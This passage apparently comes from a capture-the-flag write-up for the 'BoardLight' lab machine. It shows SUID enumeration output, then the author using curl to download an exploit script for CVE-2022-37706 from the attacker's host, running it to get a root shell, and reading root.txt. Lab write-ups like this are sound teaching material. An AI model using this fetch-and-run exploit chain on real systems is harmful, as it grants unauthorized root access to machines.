 ```bash
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown 
```

A quick Google search led me to this exploit: `https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit`. I downloaded it, ran it, and… root! Then I grabbed `root.txt`

```bash
larissa@boardlight:/dev/shm$ curl http://10.10.14.8:8000/exploit.sh -o exploit.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   709  100   709    0     0  21484      0 --:--:-- --:--:-- --:--:-- 21484
larissa@boardlight:/dev/shm$ ls
exploit.sh
larissa@boardlight:/dev/shm$ bash exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: cant find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# ls
exploit.sh
# cd /root
# cat root.txt
ac9df48...
#
```

root.txt

```text
ac9df48...
```